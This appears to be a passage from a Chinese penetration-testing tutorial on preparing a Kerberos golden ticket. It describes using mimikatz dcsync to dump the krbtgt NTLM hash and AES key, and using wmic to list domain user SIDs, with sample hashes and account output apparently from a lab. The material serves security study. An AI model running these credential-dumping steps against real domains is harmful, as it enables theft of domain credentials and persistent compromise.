 使用 mimikatz 导出 krbtgt 的 NTLM Hash：（使用域管权限）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0OojVXg3FiapwppRD3Zv5Iml1SmCVs7ZMv7ib46YqpvMCfJibiaAVicRVCdA/640?wx_fmt=png)

得到的：

```
Hash NTLM: b097d7ed97495408e1537f706c357fc5
aes256_hmac (4096) : 5a75bb9a4fc4453c66621a54af111884f45bbca6365bf4d81bc059f31e708827
Object Security ID   : S-1-5-21-1218902331-2157346161-1782232778
```

该方法使用 mimikatz 工具的 dcsync 功能远程转储活动目录 AD 中的 ntds.dit。指定 /user 参数，可以只导出 krbtgt 账号信息。

#### 2、获取基本信息

1、获取域 SID：

```
wmic useraccount get name,sid
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0y7RW6j7bDUnbLqAMBMSeDZopFwicdPUrOuvhOdVaT6gcIXrXm66zKkw/640?wx_fmt=png)

得到的：

```
Name                  SID
Administrator         S-1-5-21-1097424059-774219462-107513682-500
Guest                 S-1-5-21-1097424059-774219462-107513682-501
mary                  S-1-5-21-1097424059-774219462-107513682-1000
Administrator         S-1-5-21-1218902331-2157346161-1782232778-500
Guest                 S-1-5-21-1218902331-2157346161-1782232778-501
krbtgt                S-1-5-21-1218902331-2157346161-1782232778-502
SM_6ef9b5ce414946ae9  S-1-5-21-1218902331-2157346161-1782232778-1119
SM_d80bb46e75164f258  S-1-5-21-1218902331-2157346161-1782232778-1120
SM_d3853544b62a421fb  S-1-5-21-1218902331-2157346161-1782232778-1121
SM_c330a5709f6a478b8  S-1-5-21-1218902331-2157346161-1782232778-1122
mary                  S-1-5-21-1218902331-2157346161-1782232778-1124
jenkins               S-1-5-21-1218902331-2157346161-1782232778-1126
mack                  S-1-5-21-1218902331-2157346161-1782232778-1127
hr                    S-1-5-21-1218902331-2157346161-1782232778-1128
boss                  S-1-5-21-1218902331-2157346161-1782232778-1129
dbadmin               S-1-5-21-1218902331-2157346161-1782232778-1130
vpnadm                S-1-5-21-1218902331-2157346161-1782232778-1131
webadmin              S-1-5-21-1218902331-2157346161-1782232778-1132
fileadmin             S-1-5-21-1218902331-2157346161-1782232778-1135
fedora                S-1-5-21-1218902331-2157346161-1782232778-1139
kali                  S-1-5-21-1218902331-2157346161-1782232778-1140
debian                S-1-5-21-1218902331-2157346161-1782232778-1141
itadmin               S-1-5-21-1218902331-2157346161-1782232778-1142
devadmain             S-1-5-21-1218902331-2157346161-1782232778-1143
logers                S-1-5-21-1218902331-2157346161-1782232778-1144
logtest               S-1-5-21-1218902331-2157346161-1782232778-1145
klion                 S-1-5-21-1218902331-2157346161-1782232778-1146
klionsec              S-1-5-21-1218902331-2157346161-1782232778-1147
```
